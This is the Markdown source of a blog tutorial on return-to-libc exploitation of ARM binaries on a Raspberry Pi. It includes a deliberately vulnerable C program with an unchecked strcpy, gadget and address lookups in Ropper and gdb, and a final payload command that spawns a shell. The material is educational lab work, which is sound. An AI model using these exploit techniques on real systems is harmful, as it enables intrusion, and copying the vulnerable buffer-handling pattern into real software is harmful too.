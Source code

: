 ```yaml
---
layout: single
title: "ARM Exploitation with Raspberry Pi: ARM Ret-to-Libc"
excerpt:  "In this blog post, we will discuss ARM exploitation techniques using Raspberry Pi and focus on Return-to-Libc exploitation, which is a common technique used in ARM architecture. We will use a simple buffer overflow vulnerability to demonstrate how to leverage the Ret-to-Libc technique to gain control of the program execution flow and execute arbitrary code." 
seo_title:  "ARM Exploitation with Raspberry Pi: Learn Ret-to-Libc Exploitation"
seo_description:  "Learn how to perform Return-to-Libc exploitation on ARM architecture with Raspberry Pi. This blog post will teach you the techniques of Ret-to-Libc exploitation using a buffer overflow vulnerability. Read on to master the ARM exploitation techniques."
header:
  image: "https://live.staticflickr.com/65535/49851551351_6288c3f55a_z.jpg"
  teaser: "https://live.staticflickr.com/65535/49851551351_6288c3f55a_z.jpg"
categories:
  - Security
tags:
  - Exploitation
  - Tutorial
  - ARM
  - Ret-to-libc
  - Buffer Overflow
  - Raspberry Pi
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```



In this post we will learn how to exploit a vulnerable `C` program using `ret-to-libc`.

Before proceeding, you can read the previous posts:

[ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)

[ARM Exploitation with Raspberry Pi: Basic Stack Overflow](https://shantoroy.com/security/ARM-exploitation-raspberry-pi-stack-overflow/)

[ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing](https://shantoroy.com/security/avoid-segmentation-fault-return-from-shellcode/)

## Vulnerable Program
We will use the following vulnerable program to exploit using `ret-to-libc`.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// This is our vulnerable function
void vulnerable(char *arg) {
    char buff[100];
    // to print return address
    printf("%p\n",&buff[0]);  
    strcpy(buff, arg);
}

// Pass argument in the vulnerable function
int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```
## Payload Structure
We will use the following gadget
```
POP {R0, R4, PC} 
```

As we have 100 B buffer size, we will have the return address at starting at 105th position. So, we will fill the first 104 Bytes with any character or NOP sled. Here, the example payload looks like as follows:
```
payload = 104 B NOP/Char + Gadget Address + R0 Value + R4 Value + PC value 
```

Now, we will put the address of **`/bin/sh`** in `R0` and the address of `system()` function in `PC`. Here, R4 value is not important and we will put junk value there. This means we will execute the shell using system().

Now, the payload is complete:
```
payload = 104 B NOP + POP instr. Address + /bin/sh address + "JUNK" + system() address
```


## Find Addresses
### Find Base Address
Now, we need to find out the shared library dependency for a particular executable of a vulnerable program,

```bash
$ ldd ./overflow
	linux-vdso.so.1 (0x76ffd000)
	/usr/lib/arm-linux-gnueabihf/libarmmem.so (0x76fb8000)
	libc.so.6 => /lib/arm-linux-gnueabihf/libc.so.6 (0x76e79000)
	/lib/ld-linux-armhf.so.3 (0x76fce000)
```

**Note**: For larger/complex program the output is much longer. In that case, it is better to filter using `grep`.

```bash
$ ldd ./overflow | grep "libc.so.6"
    libc.so.6 => /lib/arm-linux-gnueabihf/libc.so.6 (0x76e47000)
```
The base address is required to obtain the final address of the gadgets.


### Address of POP instruction
We are using the `Raspbian Buster`, the gcc version is now $8$.

Now, to find the new address we use [Ropper](https://github.com/sashs/Ropper). Let's first install the Ropper by installing particular frameworks using following commands:

```bash
pi@raspberry:~$ sudo pip install capstone
pi@raspberry:~$ sudo pip install filebytes
pi@raspberry:~$ sudo pip install keystone-engine
```

Now, let's install Ropper:
```bash
pi@raspberry:~$ git clone https://github.com/sashs/Ropper.git
pi@raspberry:~$ cd Ropper
pi@raspberry:~$ python setup.py install
pi@raspberry:~$ ropper
```

We can also use the `Ropper.py` file directly. Now, let's find the gadget address using the following command:
```bash
pi@raspberry:~$ ./Ropper.py --file /lib/arm-linux-gnueabihf/libc.so.6 --search "pop {r0, r4, pc}"

    [INFO] Load gadgets for section: LOAD
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    [INFO] Searching for gadgets: pop {r0, r4, pc}
    
    [INFO] File: /lib/arm-linux-gnueabihf/libc.so.6
    0x000791fc: pop {r0, r4, pc};
```



We need check it again using `gdb` [Not necessary, we got our address.]
```bash
pi@raspberry:~$ gdb -q /lib/arm-linux-gnueabihf/libc.so.6
(gdb) x/i 0x000791fc
   0x791fc <memmove+236>:	pop	{r0, r4, pc}
```

Now, we  will add the address with the **base address**-

```bash
pi@raspberrypi:~$ python3
Python 3.7.3 (default, Dec 20 2019, 18:57:59) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
>>> hex(0x76e47000+0x000791fc)
'0x76ec01fc'
>>> 
```
So, finally we have our required final address of the gadget for the target program.



### Address of System()
Let's find the address of the system using `gdb`:
```bash
$ gdb -q ./overflow
    GEF for linux ready, type `gef' to start, `gef config' to configure
    79 commands loaded for GDB 7.12.0.20161007-git using Python engine 3.5
    [*] 1 command could not be loaded, run `gef missing` to know why.
    Reading symbols from ./overflow...(no debugging symbols found)...done.
    gef->  break main
    Breakpoint 1 at 0x104fc
    gef->  run
    Starting program: /home/pi/overflow
    .......................................
    .......................................
    
    gef->  print system
    $1 = {int (const char *)} 0x76e7f9c8 <__libc_system>
```

### Address of `/bin/sh`
We can retrieve the address of `/bin/sh` in the same way inside `gdb`
```
    gef> find &system,+9999999,"/bin/sh"
        
        0x76f72b6c
warning: Unable to access 16000 bytes of target memory at 0x76f82574, halting search.
1 pattern found.
```
So, the final address is : `0x76f72b6c`


## Final Payload
The padding should be upto the byte before return address starts. For example in our testbed we used 100 char arrays. Therefore, the return address should start from $105^{th}$ position and the padding should be 104 character or similar size of NoP sled.

Note that, the addresses should be in `Little Endian` order.
```bash
$ ./overflow $(python -c 'print "A"*104+"\xfc\x01\xec\x76"+"\x6c\x2b\xf7\x76"+"JUNK"+"\xc8\xf9\xe7\x76"')
```
So, the output will look like as follows:
```bash
pi@raspberrypi:~/test$ ./overflow $(python -c 'print "A"*104+"\xfc\x01\xec\x76"+"\x6c\x2b\xf7\x76"+"JUNK"+"\xc8\xf9\xe7\x76"')

$ ls
overflow  overflow.c
$ pwd
/home/pi/test
$ 
```
Bingo!!!
Have fun!!! 





<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2MjE1NjcwNzYsLTE3NjAyMDk3MjIsMT
Y2NjM0Mjg5Niw1NzI1NDczODYsLTUyODY0NTk0Myw5NjU0MTY5
NDksMTc0NzY1NjQzMywtMTY2MjAyMDAyMiwxNzU4NDQyNjIxLD
gyNzk0MTAxLC0zMjk5Mzc5NDIsOTc5ODg2OTg1XX0=
-->